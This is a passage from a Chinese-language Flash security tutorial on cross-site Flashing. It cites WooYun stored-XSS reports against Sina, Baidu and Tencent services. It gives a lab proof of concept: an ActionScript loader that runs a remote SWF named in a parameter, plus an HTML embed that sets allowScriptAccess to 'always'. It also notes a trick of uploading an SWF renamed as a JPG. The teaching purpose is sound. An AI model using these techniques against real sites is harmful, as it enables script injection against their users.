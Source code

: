 wooyun 上实例：

[WooYun: sina 微薄存储型跨站](http://www.wooyun.org/bugs/wooyun-2011-01768)

[WooYun: sina 微博存储型跨站Ⅱ](http://www.wooyun.org/bugs/wooyun-2011-01904)

[WooYun: sina 微博存储型跨站Ⅲ](http://www.wooyun.org/bugs/wooyun-2011-03574)

[WooYun: 百度贴吧存储型 XSS - Flash 又中枪了～～](http://www.wooyun.org/bugs/wooyun-2012-08354)

本地搭建环境，新建 Flash：

```
var param:Object = root.loaderInfo.parameters;
var swf:String = param["swf"];
var myLoader:Loader = new Loader();
var url:URLRequest = new URLRequest(swf);
myLoader.load(url);
addChild(myLoader);

```

新建本地 html 文件：

```
<object id="lso" type="application/x-shockwave-Flash" data="http://192.168.4.70/xsf.swf">
<param name="movie" value = "http://192.168.4.70/xsf.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
<param name="Flashvars" value="swf=http://xxxxx.sinaapp.com/trace.swf"
</object>

```

运行结果，加载了远程有缺陷的 swf 文件导致了 xsf。

![enter image description here](img/img13_u8_png.jpg)

**其他**

1：addCallback 返回值从其他地方获取。

[WooYun: QQ 空间某功能缺陷导致日志存储型 XSS - 14](http://www.wooyun.org/bugs/wooyun-2014-051432)

2：利用上传文件如 xx.swf 修改为 xx.jpg 获得上传目标域下的 swf。

[WooYun: Flash 应用安全系列[5]--QQ 邮箱永久劫持漏洞](http://www.wooyun.org/bugs/wooyun-2013-017459)

[WooYun: 腾讯某分站可上传任意 swf 文件导致的一系列问题（附简单 POC）](http://www.wooyun.org/bugs/wooyun-2014-062461)
